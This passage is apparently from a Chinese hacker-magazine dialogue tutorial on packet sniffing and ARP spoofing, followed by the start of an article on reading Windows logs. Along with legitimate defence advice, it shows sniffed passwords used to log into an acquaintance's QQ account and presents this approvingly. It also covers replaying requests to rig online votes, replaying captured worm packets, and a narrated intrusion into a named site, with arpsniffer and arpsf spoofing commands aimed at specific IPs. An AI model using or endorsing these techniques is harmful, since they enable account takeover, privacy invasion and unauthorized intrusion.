“先使用X-Sniffer获得邮箱/FTP等相关密码，再使用QQSniffer获得对应IP地址的QQ号码，因为普通用户的QQ密码和邮箱密码相同的几率是很大的，所以大胆推测QQ密码就是它的邮箱密码，成功的几率是很大的哦！”

“哦，对啊，尝试一下那个mm的号码吧，哈哈！果然正确。”

小黑兴奋地说道：“X-Sniffer和QQSniffer双剑合璧，无敌于共享局域网！越来越有意思了！”

“人无完人，嗅探器也是。X-Sniffer和QQSniffer虽然好用，但有些时候就满足不了我们更高级的要求了。”

### 五、完美的Ethereal

“X-Sniffer和QQSniffer都能自动对捕获的数据进行层层过滤，只显示我们想要的数据。这是这类嗅探器最大的优点——简单易用，同时也是它们最大的软肋——无法知道全面的网络数据。当需要对网络数据进行详细分析，特别是网络程序调试时，需要知道每一个包的每一个数据，这类重重过滤的嗅探器就无法担当重任了。”

“时代造英雄！在人民的呼唤下，一个传奇的Ethereal呼之欲出了。”

“Ethereal是一款开放源码的网络分析系统，也是目前最好的开源网络协议分析器，能在Linux平台和Windows平台下使用。”

“Ethereal起初由Gerald Combs开发，随后由一个松散的Ethereal团队组织进行维护开发。它目前所提供的强大协议分析功能完全可以媲美商业网络分析系统。自从1998年发布最早的0.2版本至今，大量志愿者为Ethereal增加新的协议解析器，如今Ethereal已经支持500多种协议解析。”

“500多种协议？太夸张了吧！TCP/IP有这么多协议吗？”

“当然不仅仅是TCP/IP的协议，比如还有IPX的、RPC的，以及很多公司的、商业的、专门的、私有的协议，数目多得很呢。”

“Ethereal能支持这么多协议，都归功于自身良好的设计结构。在Ethereal系统中加入一个新的协议解析器很简单，一个不了解系统结构的新手也可以根据给出的接口进行自己的协议开发。这就是插件。事实上，由于网络上各种协议种类繁多，各种新协议层出不穷，一个好的协议分析器必须有很好的可扩展性和结构，这样才能适应网络的不断发展。”

“如何编写插件就不说了，只是分工不同，都是为人民服务，我们还是继续作嗅吧，关心如何使用吧。Ethereal可以直接从网络上抓取数据进行分析，也可以对由其他嗅探器抓取后保存在硬盘上的数据进行分析。使用者能交互式地浏览抓取到的数据包，查看每一个数据包的摘要和详细信息。Ethereal的功能非常强大，支持几乎所有协议、丰富的过滤语言、易于查看TCP会话经重构后的数据流等。”

“哇！听得我直流口水，果真很完美啊。”

“不要急，功能强大的软件自然有些大牌，和前面的嗅探器比起来用法就不同，Ethereal首先需要安装。”

“工欲善其事，必先利其器。要安装Ethereal，需要安装一个WinPcap驱动。”

“WinPcap可以从http://netgroup-serv.polito.it/winpcap/install/default.htm上下载，安装比较简单，一直点下一步就可以了（图15）。”

# 主题乐园

“然后再安装 Ethereal，Ethereal 的下载地址为 http://www.ethereal.com。下载后运行安装程序，首先出现安装向导提示框（图16）。”

“然后出现安装协议，选择同意‘I Agree’（图17）。”

“接下来用户选择 Ethereal 的安装类型，保持默认的选择就可以了（图18）。”

“再点几步 NEXT 后，Ethereal 就开始了安装过程，不一会就安装完毕了（图19）。”

“运行程序，出现 Ethereal 的运行界面如上，朴素大方，很舒服养眼（图20）。”

“磨刀不误砍柴工。安装好 Ethereal 后，我们看看如何操作吧。”

“需要注意的是，第一次运行时首先要选择菜单的 Capture -> Options，在 Interface 一栏，选择对应的嗅探网卡（图21）。”

“如果选择的网卡不对，嗅探的包是有错误的；像在这里，应该选择第二个网卡，Realtek 物理上的网卡（图22）。”

“选择好 Interface 接口后，就可以点击 Start 键开始嗅探。嗅探过程中，Ethereal 会弹出对话框显示当前的抓包状态，包括各种类型包的个数等（图23）。”

“当想停止抓包时，点击 Stop 按钮。抓的包就会显示在面板中（图24）。”

“可以看到，Ethereal 抓的包已经分析好了，而且显示效果非常棒，不但能很精确地显示出协议，在 Ethereal 的‘Info（信息）’一栏的描述中，往往能给该条数据最精确的描述，这在进行细致的数据分析时，非常令人省心。”

“得到数据后，选择 File 菜单下的 Save 或者 Save As，会弹出保存对话框，可以将当前捕获的数据保存下来，供以后分析（图25）。”

“Ethereal 也可以将数据导出为其他格式。点击 File 菜单下的 Export，可以看到 Ethereal 支持导出的格式非常的多！有明文文件，有脚本文件，有 CSV 等等，还有 XML 格式（图26）。”

“更为不错的是，Ethereal 可以打开网络监视器或 Sniffer Pro 等其他 Sniffer 抓获的数据文件，这样大大方便了数据的共享。”

“Ethereal 有很多高级的用法，其中最重要的，也是和我们最息息相关的就是过滤功能了。在局域网中捕获数据时，会获得非常多的数据，如果使用人工找想要的数据，就好比大海捞针，希望非常渺茫。作为一个强大的 Sniffer，Ethereal 具有强大的过滤功能，辅助使用者分析数据。”

“Ethereal 的过滤方法有两种。”

- 一种是在抓包时过滤。在抓包的时候，先定义好抓包过滤器，这样抓取时就只抓预先设定好的那些类型的数据包。
- 另一种过滤方法是显示时过滤。就是先不管三七二十一，把本机收到或者发出的包一股脑地抓下来，然后使用显示过滤器，让 Ethereal 只显示感兴趣的那些数据包。

“在 Capture -> Option 对话框中，点击 Capture Filter，会弹出抓包过滤对话框。里面已经有了些过滤的例子字符串。比如，我想只抓 HTTP 的包，就选择 HTTP TCP port 80，出现过滤脚本是 tcp port http，如图27。”

“点击 OK，过滤脚本就会出现在 Capture Filter 一栏中（图28）。”

“定义了这个过滤字符串后，Ethereal 在抓包时就只抓取 HTTP 的包了。”

“做简单的显示过滤方法是点击 Ethereal 面板上的标题栏，可以按照序号 No、时间 Time、源地址 Source、目的地址 Destination、协议 Protocol 和信息 Info 分别排序，方便查看和使用。”

“如果更高级一点，就是在面板上方的 Filter 一栏中输入过滤字符串脚本，实现显示过滤。”

“比如，如果只想显示 HTTP 协议的包，就在 Filter 中输入 HTTP，然后回车，Ethereal 就会只显示 HTTP 协议的包（图29）。”

“过滤可以用操作符来构造比较表达式，其语法和 C 语言类似。比如：”

| 运算符 | 示例 |
|---|---|
| 等于 `==` | `ip.addr==10.10.20` |
| 不相等 `!=` | `ip.addr!=10.10.20` |
| 大于 `>` | `frame.pkt_len>10` |
| 小于 `<` | `frame.pkt_len<10` |
| 大于等于 `>=` | `frame.pkt_len>=10` |
| 小于等于 `<=` | `frame.pkt_len<=10` |

“举个例子，如果要显示 IP 地址是 219.133.38.29 的主机接收或发送的所有 HTTP 报文，那么显示过滤器应该输入 `ip.addr==219.133.38.29 and http`，显示结果如图30所示。”

“哦，果然顺利实现过滤，真有意思。”  
“小黑说道。”

“表达式还可以用逻辑操作符来组合。比如逻辑与 and，逻辑或 or，异或 xor，还有逻辑非 !。”

过滤表达式正确时，Filter 的背景色是绿色；但如果发现背景是红色时，就说明设定的 Filter 表达式不正确，是 Ethereal 不允许的（图31）。

“好了，更高深的插件安装甚至编写我们就不讲了。Ethereal 可谓博大精深！我们使用一招半式，就可以行走江湖了！”

“哦？哪些江湖可以走呢？”

“江湖，有人的地方就有江湖，所以 Ethereal 能使用的地方实在太多了！Ethereal 当然能抓邮件、FTP、Telnet 一类的密码。但是，杀鸡焉用‘巡航导弹’乎？我们看看其他更细致方面的用途吧。”

## 1. 千里追单骑——下载地址的跟踪

“刚才使用 X-Sniffer 对网页进行嗅探时，可以获得邮箱登录密码，除此之外，对网页嗅探的最好作用就是获得下载地址。”

“当访问的 Web 页中镶嵌了一些 Flash 和音乐或是视频，如果想要获取页面中的某些音乐或是 Flash 而又无法找到地址时，X-Sniffer 就无能为力了，而使用 Ethereal 是一个很好的选择。”

“对啊，对啊。”小黑说道，“我打开 mm 的 blog 时，很好听的音乐传来。是一首英文歌，为了培养共同的兴趣，我早就想下载下来反复听了，但就是没找到下载的地方，一直没有成功。”

“有了前面的操作基础，实现这个功能就简单了。先和对方说句话，然后打开 Ethereal 进行嗅探。因为 QQ 是通过 UDP 传输消息的，因此输入过滤 UDP。”

“当对方回应消息时，停止抓包，开始分析。”

“好，没问题，这个就交给 Ethereal 吧。”

“先打开 Ethereal，输入过滤 80 端口的过滤字符串，然后开始抓包捕获。”

“现在打开 mm 的网页，可以看到 Ethereal 抓取状态，获得的包不断增多（图32）。”

“音乐都传来了，果真好听啊！我们可以停止抓包了。在 Ethereal 中分析数据，找到后缀名为 wmv 的地址。如果稍微了解网站路径的知识，那么就知道，在文件地址前面加上网站的地址，就可以接入下载工具下载了。”

“哈哈，果然能下载了！真喜欢这样风格的音乐啊，忧伤，婉转……”

“知道了吧，以后上网遇到了，都可以像这样下载下来。”

## 2. 大家来找它——QQ 地址的捕获

“哎哟，Ethereal，Ethereal 我爱你，就像老鼠爱大米！哈哈！”小黑高兴地说道。

“再举个简单的例子，就是获取对方 QQ 好友的 IP 地址。”

“不难看到，首先是 8000 端口的一些通信，这是 QQ 和腾讯服务器的通信，包括验证、广告等。从这里可以知道腾讯的服务器地址（图33）。”

“下面和其他 4000 端口通信的连接就是和别人的聊天过程，从这里就可以知道好友对方的 IP 了。”

“哦，知道对方的地址，然后，炸药啊，巡航导弹啊，准备！”小黑说道。

“虽然现在很多版本的 QQ 已经实现 IP 地址的捕捉了，但这个例子的目的是明白原理，改装下一个显示 IP 的 QQ 版本就是你小黑制作的！”

## 3. 自动投票系统的生成

“前面的例子都只分析一个包，比较简单，”老黑说道，“但有些时候需要连续分析前后多个包，这个时候就复杂些了。”

“对于一般的投票系统，比如 163 论坛的支持投票系统，每个评论的右上角都是有一个‘支持’按钮（图34）。”

“开启 Ethereal 嗅探，再点击支持，可以看到抓包情况如下（图35）。”

“可以看出是 GET /upvote…… 那句请求实现的投票。只要反复发送请求就可以多次自动投票了。”

“而对于稍微有点控制的投票系统，比如有些投票系统要求首先从某个主页进入，才能投票。这种系统，要么是使用 Referer 字段验证，要么使用 Cookie 验证，但不管怎么样，一切都逃不过 Ethereal 的火眼金睛！”

“直接用 Ethereal 抓下完整的投票过程，然后慢慢分析，下面是抓取的数据。”

```http
POST /epsave.asp HTTP/1.1
Accept: image/gif, image/x-xbitmap, image/jpeg, image/pjpeg, application/vnd.ms-powerpoint, application/vnd.ms-excel, application/msword, application/x-shockwave-flash
Referer: http://scoltp.scol.com.cn/...
Accept-Language: zh-cn
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.0; Maxthon)
Host: scoltp.scol.com.cn
Content-Length: 47
Connection: Keep-Alive
Cache-Control: no-cache
Cookie: ASPSESSIONIDQCSAQDDR=...
...
```

“可以看出，投票使用了 ASPSESSIONIDQCSAQDDR 的 Cookie 键和 Referer 字段来验证是否从主页进入。”

“知道了验证方法就好办了，我们自己设计自动投票系统时，先访问主页，获得 ASPSESSIONIDQCSAQDDR 的值，然后对应着发送上面的数据，就可以投票了！”

“哦，但如果要验证码呢？还能自动投票吗？”小黑追问道。  
“当然可以啊，如果投票需要验证码，只需要配合‘验证码识别编程之无极篇’中的内容就可以轻松搞定！”

## 4. Hacker 和 Sniffer 的综合利用

“说到嗅探，就不得不说嗅探在黑客技术中的重要地位了。比如为了破解一些程序，特别是网络程序，如果采用嗅探抓包协助分析，就可以大大加快破解过程。”

“最经典的例子是震荡波代码的产生。最开始的攻击方法是 HACK 了一个 DLL 用以发送攻击网络数据包……后来更好的方法就是嗅探，直接把远程主机发起的请求包抓下来并复用。”

“说干就干，首先打开 Ethereal，再对远程主机攻击一次，把攻击发送的包抓下来（图36）。”  
“看得出来，192.168.1.166 是攻击机，192.168.1.169 是被攻击的服务器……关键是发送一定的请求，然后把超长参数发过去。”

“但我们不用具体了解它的含义，只管把请求拷贝下来，存在数组中，直接向远程机器发就行了。Sniffer 很有用，尤其对分析未文档化协议、RPC 相关内容特别有帮助。”

# 公共交换局域网——交换环境下的嗅探

## 1. 经验与失忆——ARP 嗅探原理

“X-Sniffer 的确能，Ethereal 的确美，文档解咒也很强……但它们有共同的弱点，就是只能在 HUB 组成的局域网中使用；在交换局域网中，就难以施展。”

“具体地说，交换环境下数据的传输示意图如图37所示。正常情况下，A 发给 B 的数据，交换机不会发给其他端口（如 C），因此即使 C 设置了混杂模式也无法嗅探。可以通过整容、失忆、欺骗等方式获取嗅探数据。交换机并非为安全而设计，在交换局域网内可进行的嗅探包括 MAC 洪水（MAC Flooding）、MAC 复制（MAC Duplicating）和 ARP 欺骗。”

> **小知识**：MAC 地址是指链路层的物理地址，而 IP 地址是网络层地址。

第一种方法（MAC 洪水）的原理是：交换机维护端口与 MAC 地址映射表，映射表容量有限。当攻击者发送大量伪造 MAC 地址时，交换机可能退化为类似 Hub 的广播转发（“打开失败”模式），从而可被嗅探（图39）。并非所有交换机都如此，若使用静态地址映射表，此法会失效。

第二种方法（MAC 地址复制）是修改本机 MAC，使其与受害主机相同。交换机会发现两个端口对应同一 MAC，可能导致发往该 MAC 的数据在两个端口间异常转发（图40）。该方法与 ARP 欺骗不同：MAC 复制欺骗的是交换机；ARP 欺骗欺骗的是主机 ARP 缓存。若交换机使用静态映射表，MAC 复制同样可能失效。

“所以实际中使用较多的方法还是第三种 ARP 欺骗。ARP 是什么？”

ARP 全称地址解析协议。主机在局域网发送数据时，链路层按 MAC 地址转发，不直接依据 IP 头目的地址；因此发送前需先知道目标 IP 对应的 MAC。ARP 用于完成 IP 地址与 MAC 地址之间的映射（图41）。

“ARP 的映射过程通常自动完成，但要深入理解。”

系统启动时 ARP 缓存通常为空（可在 DOS 下用 `arp -a` 查看，见图42）。先 `ping` 网关 `192.168.0.1`，再执行 `arp -a`，会出现对应条目，记录 IP 与 MAC 映射（见图43）。

通过抓包可见：ping 前本机先发 ARP 请求“谁是 192.168.0.1”，网关返回其 MAC，本机据此发送 ICMP 并把映射写入 ARP 缓存（图44）。发送数据前会先查本地 ARP 缓存，有则直接使用，无则发 ARP 请求。

按 ARP 协议设计，为减少 ARP 通信开销，主机即使收到并非自己请求的 ARP 应答，也可能写入本机 ARP 缓存。这提升了可达性，但也引入 ARP 欺骗可能。

如果要监听同一交换网络中两台主机通信，可让双方都误以为对方 MAC 是攻击者主机，从而双方“直接通信”实际经由攻击者转发（中间人）。随后给出 A/B/C 三台主机地址配置示例（见图45）。

- A 主机：IP 地址为 192.168.0.1，MAC 地址为 0a:0a:0a:0a:0a:0a。  
- B 主机：IP 地址为 192.168.0.2，MAC 地址为 0b:0b:0b:0b:0b:0b。  
- C 主机：IP 地址为 192.168.0.3，MAC 地址为 0c:0c:0c:0c:0c:0c。

“如果 C 想嗅探 A 和 B 之间的通信内容。为此，C 向 A 和 B 都发送假的 ARP 应答包，告诉 A，B 的 MAC 地址是 0c:0c:0c:0c:0c:0c（其实是 C 自己的）；同时告诉 B，A 的 MAC 地址是 0c:0c:0c:0c:0c:0c（其实是 C 自己的），如图46。”

“收到假的 ARP 应答后，A 以为发给 192.168.0.2 的数据包应该发到 MAC 地址为 0c:0c:0c:0c:0c:0c 的机器；而 B 也以为发给 192.168.0.1 的数据包，应该发到 MAC 地址为 0c:0c:0c:0c:0c:0c 的机器。A 和 B 都将其加入到 ARP 缓存表中……正中了 C 的下怀。”

“当然，因为 ARP 缓存表是动态更新的……C 还要不断向 A 和 B 发送这种虚假的 ARP 响应包，让其 ARP 缓存中一直保留错误映射项。”

“现在，如果 A 和 B 要进行通信，它们先查找自己的 ARP 缓存表……但实际上彼此发送的数据包都会先到达 C 主机（图47）。”

“这时，如果 C 不做进一步处理，A 和 B 之间通信就无法正常建立……因此 C 要对‘错误’收到的数据包进行修改并转发到正确目的地……（图48）。”

“所以 ARP 欺骗是通过换脸与失忆来完成欺骗的。著名的网络执法官也是用这个原理。”

> “网络执法官不让其他机器上网的原理也是基于 ARP 欺骗。它欺骗其他主机，把 ARP 缓存里的网关 MAC 地址改为自己的 MAC 地址，随后并不转发，导致数据包被丢弃。”

`arp -a`

“这个简单，当怀疑网络执法官作祟时，用 arp -a 命令查看，如果发现有另一台机器的 MAC 地址和网关 MAC 一样，就是它了（图49）！”

“有时不好用暴力 PK 解决时，可以用 `arp -s inet_addr eth_addr` 命令，静态绑定网关 IP 和网关 MAC，让 ARP 欺骗无效！”

## 2. 小塔的 ARPSniffer

“我们来看看吧。使用 ARPSniffer 前要安装 WinPcap……在 DOS 控制台输入 ARPSniffer 会出现提示信息（图50）。”

“从提示中可看出，ARPSniffer 的使用方法是 `ARPSniffer IP1 IP2 port logFile NetAdp [/Reset]`。IP1、IP2 是目标主机，port 是端口，logFile 是保存文件，NetAdp 是网络适配器。”

“失败？提示如‘Spoof2 Can't Open Driver’等，通常是驱动问题。可尝试安装其他版本 WinPcap。ARPSniffer 较旧，与新系统兼容性差。”

后续对话继续讨论该工具年代、维护情况及相关网络安全实践经验。

> “小灵通当时这么牛，结果一年之内就垮得差不多了！IT 技术的发展实在是太快了！”

“啊！真恐怖啊，UT 前年还是待遇最好的通信公司啊，北电的、中兴的人还都在那里跳呢。”

“是啊，现在是 UT 的人在往其他地方跳了，而且人都跳得差不多了，没几个人了。……”

# 3. 江山望有新人出——最新的 shadow arpsf

“这不是，shadow 站出来了，推出了新的交换环境下的 Sniffer——arpsf。……如果想避免 ARPSniffer 的诸多错误问题，就可以使用 shadow 的 arpsf。”

“shadow 的 arpsf 是不久前才完成的，功能全面，比较实用，提示信息很多，方便查错。……”

```bash
arpsf 参数帮助（节选）
-di       目的 IP
-sp       源端口
-dp       目的端口
-v        …
-proto    侦听协议（TCP/UDP/ICMP）
-m        最大记录文件（M）
-hex      输入/输出到文件
-unecho   不回显
-unfilter 不过滤 0 字节数据包
-low      降低侦听包率
-timeout  超时设置
-snifftp / -sniftelnet / -snifa1 / -onlycheat / -cheatsniff
-reset    欺骗后恢复
-g        网关 IP
-c        欺骗者 IP
-t        受骗者 IP
-time     欺骗次数
```

“哇！如此之多的参数啊！”

“下面还有几个使用示例。”

```bash
arpsniffer -p TCP -dp 25:110 -o 1.txt -m 1 -snifpacket
## 侦听指定规则数据包并保存到文件

arpsniffer -snifall -cheatsniff -t 127.0.0.1 -g 127.0.0.254
## 欺骗并且嗅探 127.0.0.1 与外部通信，输出到屏幕

arpsniffer -onlycheat -t 127.0.0.1 -c 127.0.0.2 ...
-time 100 -reset
## 对目标欺骗一百次，欺骗后恢复
```


**图52**

“哇！这么多注释啊！”

“……真是乱花渐欲迷人眼啊！眼睛都看不过来了。……”

Note:

Program for 阿紫, I am very sorry for do this so late, Forgive me~ :)

“作为一个程序员，shadow 还可以这么浪漫！……”

“没问题，只要你有信心，有兴趣，你的程序一定也会为大众使用的！”

“我们继续。Arpsf 的使用参数可以选择如下。”


**图53**

“我们嗅探一下试试，比如想嗅探 192.168.0.10 机器和网关之间的全部通信，输入 `arpsf -snifall -cheatsniff -t 192.168.0.10 -g 192.168.0.1 -o 1.txt`，如图53。”


**图54**

“解释一下，这里的参数 snifall 表示嗅探所有的数据包，cheatsniff 表示欺骗并且嗅探，-t 后面接受被欺骗机器的 IP，-g 后面接受网关地址，-o 1.txt 表示将抓包输出到 1.txt 文件中。”

“……这里有两种方法，第一种是通过 WinPcap 驱动，第二种是通过 IpHelpAPI（微软提供的 SDK）……”

复测后发现，在 2003 和 XP SP2 系统下，都需要选择第二种方法才能找到网络适配器，否则找不到网卡。这可能就是小榕的 ARPSniffer 找不到网卡的原因吧（图54）。

“我们选择第二种方法，输入 1。这时出现机器拥有的网络适配器要求选择（图55）。”


“这台机器只有一个网卡，所以只有一个编号提示。如果有多个网卡的时候，可以查看 Ethereal 等的提示，记住编号，就知道选择哪一块了（图56）。”

老黑补充道：“感觉这里作者可以改进一下，提示信息更全面一点，便于多网卡时的操作。否则只给编号，使用者根本不知道是哪个网卡。好了，选择 0 后再敲回车，就开始嗅探了。”

“程序的提示信息很详细，每一步执行什么都输出在屏幕上了。我们可以看到，首先是获得每一个 IP 的 MAC 地址，如果 NETBIOS 不能获得，还可以用 ping 命令来尝试获得。从图57中可以看到，arpsf 每一步的提示信息非常全面！便于发现出错的地方。”

“获得了 MAC 地址，热身运动完成后，就开始真正的 ARP 欺骗和嗅探了。啊啊啊，数据流出现了，真漂亮啊（图58）！”

“是啊！真是疑是银河落九天啊。”小黑看着惊叹道。


“我们验证一下原理，这时在被欺骗的 192.168.0.10 的机器上用 arp -a 查看一下 ARP 缓存，可以发现果然被欺骗了。网关 192.168.0.1 原本的 MAC 地址是 00-0a-eb-c5-3d-a0，但被 ARP 欺骗后，对应的 MAC 地址被改为了 177 机器的 00-e0-4c-f3-72-96；这样发送给网关的数据，都实际发给了真正进行嗅探的机器 177 了（图59）。”


“哦，果然是这样！理论和实际的完美结合！”

“要停止嗅探，只要敲任意键，arpsf 就停止了。我们打开保存数据的文件 1.txt 查看，啊！保存的包真漂亮啊！”小黑看着惊叹道，“有了 shadow 的 arpsf，就可以纵横交换环境而无敌了啊（图60）！”

“小黑！”老黑突然说道。

“啊！什么事？”

“现在有了 QQSniffer 的源代码，又有了 ARPSF 的源代码，你可以去写一个交换环境下嗅探 QQ 号码的 Switch QQSniffer，这样可以刻上你的名字和你 mm 的名字哦！”

“嗯！有道理！我有时间一定去努力完成的！”

# 4. 决战黑防

“ARP 欺骗在入侵的过程中太有用处了！”老黑说道，“给你讲一个传奇的故事，当年，xiaolu 就是借助 ARP 嗅探，轻松入侵大名鼎鼎的黑防。”


图60

“哦？黑防？都被 ARP 欺骗入侵了？”

“是啊，让我们回顾一下当年那段激情澎湃的往事吧！”

“由于黑防的正面防守严密，xiaolu 采用了迂回的战术。首先得到黑防服务器的地址。”

```text
C:\>ping hacker.com.cn

Pinging hacker.com.cn [211.157.102.239] with 32 bytes of data:
```

“得到地址后，查找和黑防服务器同一网段的机器。扫描 211.157.102.1-211.157.102.255 的 80 和 1433 端口。”

“这么多机器，难免会有漏洞的网站。果然，xiaolu 找到一个默认目录的站，而且有注入漏洞。”

“利用注入漏洞搞了个 shell，然后想办法提权。发现有 pcanywhere，那时候 pcanywhere 的密码可以轻松破解，于是破解密码后用 pcanywhere 连接上机房。”

“关键的时候到了，tracert 一下黑防的 IP，判断是否在同一个路由器下。”


“只有一跳，表明是在同一路由器下，就是在同一局域网中，可以进行 ARP 欺骗。如果有多跳，tracert 会给出经过的每个路由器的情况。比如，我们 tracert 一下 163 的网页，tracert www.163.com，如图61。”


图61

“经过了很多个路由器，还给出了每个路由器的 IP。”老黑补充道，“不过要注意，判断是否与目标机器在同一网关下，虽然流行的做法是用 tracert，但很多时候，主机 ping 都 ping 不通，tracert 下根本看不出情况。比如 tracert 黑客 X 档案的网站，会出现如图62所示的情况。”


图62

“Request timed out，提示超时，这下就看不出来了。不过这个时候，可以采用改进的方法——‘掐头去尾’。就是把本机的 IP 地址和子网掩码做与运算，再把目标 IP 与子网掩码做与运算，如果结果相同就说明是在同一网关下。”

“比如，子网掩码是 255.255.255.0，目标机 211.157.102.239 与子网掩码相与，得到结果为 211.157.102.0；同样的，本机 211.157.102.11 与子网掩码相与，也是 211.157.102.0，说明是同一网段，就可以进行 ARP 欺骗。这种判断方法是在嗅探中经常使用的！”

“接着回到 xiaolu 的操作上来，在判断的确处于同一网段后，就上传所需的软件，WinPcap.exe、arpsniffer.exe 和 pv.exe。”

小黑问：“WinPcap 和 arpsniffer 的作用就不用说了，pv 是拿来做什么的呢？”

老黑道：“问得好！pv 是用来杀进程的软件。那个时候，arpsniffer 不能自己停止，需要按 Ctrl+C 才结束，但 Ctrl+C 控制符或者不能传递，或者 shell 也会终止，所以需要用 pv 来结束 arpsniffer 的进程。”

```text
arpsniffer.exe 211.157.102.254 211.157.102.239 21 c:\111.txt 1

pv -k -f arpsniffer.exe
```

“211.157.102.254 是网关，211.157.102.239 是黑防 IP，c:\111.txt 是 log 文件，1 是网卡的 id。”

“接下来就是姜太公钓鱼，愿者上钩！不过为了不浪费时间，xiaolu 还使用了社会工程学，假装告诉 WTF 网站被黑了，可怜的 WTF 又被骗了，连接维护网站，密码就被记录下来了。”

“剩下的流程就简单了。看见记录密码的文件增大后，用 pv 杀掉 arpsniffer 进程，然后看密码。”

“得到密码后，最后用 serv-U 提升权限，运行命令，就搞定了！”

“哎！”小黑长出了一口气说道，“虽然说得很轻松，但也感觉得到那时血雨腥风般的紧张啊！”

“嗯，是的。Xiaolu 最终的总结说得好，技术虽然很值钱，但是活运用会使技术更有价值！”

# 七、安全防御外壳

“安全真是门大学问，每一个分支都博大精深，连小小的嗅探也有如此多的学问。”小黑说道。

老黑笑着说：“攻击不仅仅是依赖工具。真正的高手，在攻击过程中，更多地利用对系统和网络结构的认识，达到手中无剑，心中有剑的境界！”

“是啊，嗅探可以杀人于无形，那该如何防御呢？”

“问得好，其实最严重的安全威胁来自内部，其破坏性往往也是致命的。嗅探器的被动性和非干扰性，使其有很强的隐蔽性，间谍破坏力量大。”

“其实前面讲了 Gmail 使用了 SSL，就该联想到，重要的服务器可以开启 SSL 加密。同样的，FTP 服务可以使用 SSH 一类的加密措施，从而即使被嗅探，也不会泄露密码明文，达到对抗嗅探的目的。”

“而作为网络管理人员，需要检测网络内部有没有机器在进行非法嗅探，以便查清是否是入侵者侵占了内部的主机。”

“理论上，嗅探程序，特别是广播环境下的嗅探器是不可能被检测出来的，因为嗅探程序是一种被动的接收程序，属于被动触发的，它只会收集数据包，而不发送出任何数据。尽管如此，嗅探程序有时候还是能够被检测出来的。”

“本机嗅探的程序检测方法比较简单，只要检查一下网卡是否处于混杂模式就可以了。”

“而检测其他机器，一个简单的方法是发送一个错误的请求给怀疑装有嗅探器的机器，如果它作出应答，则可检测出的确有嗅探器。其步骤如下：”

- 怀疑 IP 地址为 10.0.0.1 的机器装有嗅探程序，它的 MAC 地址确定为 00-40-05-A4-79-32。
- 确保机器是在这个局域网中间。
- 修改目的包的 MAC 地址为一个不存在的值。
- 用修改过后的 ping 包 ping 这个 IP 地址。
- 没有任何人能够看到发送的数据包，因为每台计算机的 MAC 地址无法与这个数据包中的目的 MAC 相符。所以，这个包应该会被丢弃。
- 如果看到了应答，说明这个 MAC 包没有被丢弃，也就是说，很有可能有嗅探器存在。

“哎，探测嗅探器是用反欺骗啊！”

“是的，技不二，就别怪己不义了！不过还是老话，这个方法不能生搬硬套，技术的关键是要活学活用！我们只有先习架势，再习内功，然后学习心法，慢慢提高，才能做到手中无剑，心中有剑！”

“嗯，是啊，我这就活学活用去，嗅探 mm 的考码和辞码去，嘿嘿！”小黑说完一溜烟跑了。

老黑：“啊！我……晕……”

（文章中涉及到的工具：Sniffer、qsniffer、Ethereal、WinPcap、ARPSniffer、arpsf，已经收录于光盘中）

# 让入侵者碰死啦

——菜菜们跟我一起学看日志


古语有云：“知己知彼，百战不殆！”既然我们要抓住黑客，自然要先了解一下黑客们攻击的时候都会使用哪些方式，入侵得手后又一般会有什么样的动作！

打开著名的“黑客攻击流程图”（图1），我们可以看到，黑客们入侵之前一般都喜欢使用扫描工具，扫描一下目标机打开了哪些端口，用来搜集关于目标机尽可能多的信息……

当发现目标机打开有哪些端口后，黑客可以推断出目标机上运行了哪些服务，找出这些服务所在的漏洞，并使用相应的工具进行攻击（比如远程溢出或 SQL 注入等，这些动作也容易在系统里留下日志）。

如果黑客得手，获得了目标机器的控制权限（当然，有的时候是比较低的权限），黑客就会想办法进行提升权限。这个时候可利用本地溢出工具或者一些其他动作，比如进行 Web 攻击后上传了一个 ASP 木马，使用该 ASP 木马进行提升权限的时候也会在日志里留下明显的记录（IIS 中会详细记录他对该 ASP 木马的每一次访问）。

职业欠钱

一旦黑客拿到了最高的权限，他下一步要做的就是安装后门以方便下次登录了！安装后门很难有日志记录下来，可是，我们可以对比系统目录下的文件和多出的服务。

而对于 Windows 服务器来说，黑客最喜欢的“后门”莫过于系统自带的终端服务了。为了安装终端服务，黑客需要一个拥有高权限的账户和密码而已。

他们可以有以下几种方式得到：一是“查询”管理员当前登录用户的密码；二是新添加一个用户；三是将一个已有用户克隆为管理员账号。幸运的是，这几个动作也有可能被系统老老实实地记录下来。

当黑客完成安装后门的动作后，他就会把刚才入侵过程中被记录下来的痕迹打扫干净！给我们来个死无对证（狡猾的黑客都会这么做）。这也正是我们要坚守的最后一道防线！


# 第二节 认识日志

因此在进行入侵检测之前，我们首先要来了解一下日志。

日志是一些文件系统集合，依靠建立起的各种数据的日志文件而存在。日志能根据管理员或系统的配置对特定的事件进行忠实的记录并保存下来，因此日志对于系统安全的作用是显而易见的：一个有经验的管理员往往能够迅速通过日志了解到系统的安全性能，而一个聪明的黑客会在入侵成功后迅速清除掉对自己不利的日志。在 Windows 系统中，通过“事件查看器”中的事件日志，可以收集关于硬件、软件和系统问题的信息，也可以监视系统安全事件。

在 Windows 2000/XP/2003 系统中，我们可以通过以下步骤打开“事件查看器”：按下 Win+R 组合键打开“运行”，输入 eventvwr 并回车，或者右击“我的电脑”→“管理”→“系统工具”→“事件查看器”（图2）。


任何版本的 Windows 系统里，至少都能看到三种日志记录事件：

- **应用程序日志**：应用程序可以包含的事件，例如程序错误。
- **安全性日志**：记录有效和无效的登录尝试，以及资源访问相关事件。
- **系统日志**：由 Windows 系统组件记录的事件。


可是在默认情况下，这里的日志记录得并不全面（有一些非常重要的安全性监视默认并不打开以节省系统资源），因此，为了能够全面详细地监视系统，我们应该手动对其进行一些安全配置。


## 配置方法如下：

首先按下 Win+R 组合键打开“运行”，输入“gpedit.msc”打开组策略，依次展开“计算机配置”→“Windows 设置”→“安全设置”→“本地策略”→“审核策略”，如图3。我们双击右边的任意一项就可以对其进行设置，比如双击“审核账户登录事件”，将“成功”与“失败”都勾上，如图4。同时也可以根据需要将其他选项进行设置监视，但如果监视项太多，到时候生成的日志会非常多，要在里面找出真正对我们有用的信息就比较困难了。

## 我建议的设置如下：

- 审核账户登录事件：成功、失败
- 审核策略更改：成功、失败

好了，到此系统日志就设置完毕了。我们在“事件查看器”里右击“应用程序”，选择属性可以看到日志文件保存的位置；同样可找到“安全性”“系统”日志文件路径。IIS 的日志文件也可用同样方法找到，并建议修改默认目录，同时设置日志访问权限，只允许管理员和 SYSTEM 完全控制，以免被恶意删除。


# 主题乐园

